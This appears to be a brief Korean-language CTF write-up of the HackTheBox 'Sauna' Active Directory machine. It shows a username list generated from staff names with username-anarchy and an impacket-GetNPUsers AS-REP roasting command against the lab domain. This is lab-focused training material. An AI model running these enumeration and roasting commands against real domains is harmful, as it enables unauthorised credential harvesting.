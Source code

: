 ```yaml
---
layout: post
title: HackTheBox Sauna
subtitle: Acitive Directory 101 Sauna Exam WriteUp
author: g3rm
categories: CTF
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-03-Sauna/2bdc0adf35cd7ad873b24031aca76c17_MD5.jpeg)

## Target - 10.129.246.172
### Info Gathering
#### open port   
![](/assets/images/posts/2025-03-03-Sauna/43e51fa648198ff08b7fb527b4792e9e_MD5.jpeg)

#### kerberos roasting
1. http에서 직원들 이름 얻어서 Window에서 계정으로 사용할 만한 username 뽑기
![](/assets/images/posts/2025-03-03-Sauna/daf33dc2142cef7bfb6f4a86808126de_MD5.jpeg)
``` bash
./username-anarchy-0.6/username-anarchy --input-file users > username
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
smithf
smith
smith.f
smith.fergus
fs
~~~
```   
2. 얻은 username으로 roasting 시도
```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile username
```


## References